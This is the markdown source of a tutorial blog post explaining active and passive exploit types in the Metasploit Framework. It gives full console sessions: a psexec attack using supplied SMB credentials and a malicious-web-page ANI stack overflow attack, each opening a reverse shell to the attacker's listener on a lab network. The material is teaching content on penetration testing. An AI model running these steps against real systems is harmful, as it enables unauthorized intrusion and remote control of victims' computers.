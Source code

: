 ```yaml
---
draft: false
title: Exploit Types in Metasploit Framework
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Within the Metasploit Framework, all exploit modules are grouped as active and passive.
url: /msf-exploit-types/
featured_image: /images/metasploit.jpg
weight: 60
translation_key: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Çeşitleri
keywords:
  - exploit
---
```


Within the Metasploit Framework, all exploit modules are grouped as **active** and **passive**.

## Active Exploit

Active exploits will run on a specific target and continue to run until the process is completed. They stop running when they encounter any error.

For example, the Brute-force module runs until a shell command line is opened on the target computer and stops when it is finished. Since their processes can take a long time to complete, they can be sent to the background using the `-j` parameter.

In the example below, you can see that the ms08_067_netapi exploit is started and sent to the background.

```bash
msf exploit**(**ms08_067_netapi**)** > exploit -j
> Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** >
```

## Active Exploit Example

In this example, a target computer (192.168.1.100) whose information was obtained through prior discovery is shown setting the necessary variables and starting to work. The psexec exploit and the reverse_tcp payload module are used to open a shell on the target computer.

```bash
msf > use exploit/windows/smb/psexec
msf exploit**(**psexec**)** > set RHOST 192.168.1.100
RHOST **=>** 192.168.1.100
msf exploit**(**psexec**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**psexec**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**psexec**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**psexec**)** > set SMBUSER victim
SMBUSER **=>** victim
msf exploit**(**psexec**)** > set SMBPASS s3cr3t
SMBPASS **=>** s3cr3t
msf exploit**(**psexec**)** > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage **(**240 bytes**)**
> Command shell session 1 opened **(**192.168.1.5:4444 -> 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Passive Exploit

Passive Exploits run passively on the local computer (our own computer) and remain listening. They wait for the target computer to somehow connect to the local computer.

Passive exploits almost always focus on clients such as Web browsers, FTP, etc. They can also be used in connections from files sent via e-mail. When a passive exploit runs, it starts waiting. When a user clicks on a link on the site or performs an action, that's when the passive exploit in the listening receives the signal and opens a **shell** on the target.

You can see the list of exploits running in the background and listening by giving the `-l` parameter to the `sessions` command. You can use the `-i` parameter to go to the desired `ID` numbered process from the list.

```bash
msf exploit**(**ani_loadimage_chunksize**)** > sessions -l

Active sessions
**================**

Id Description Tunnel
-- ----------- ------
1 Meterpreter 192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Passive Exploit Example

In the example below, a user is expected to enter a Web page using the loadimage_chunksize exploit and reverse_tcp payload. The `LHOST` variable indicates the IP address of the computer that will listen locally, and the `LPORT` indicates the port number that will listen on the local computer.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** > set URIPATH /
URIPATH **=>** /
msf exploit**(**ani_loadimage_chunksize**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**ani_loadimage_chunksize**)** > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
> Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit**(**ani_loadimage_chunksize**)** >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
> Sending stage **(**240 bytes**)**
> Command shell session 2 opened **(**192.168.1.5:4444 -> 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

You can send us other topics you want to be explained.

## Video Anlatım

{{< youtube 6liQEKnvzhQE >}}
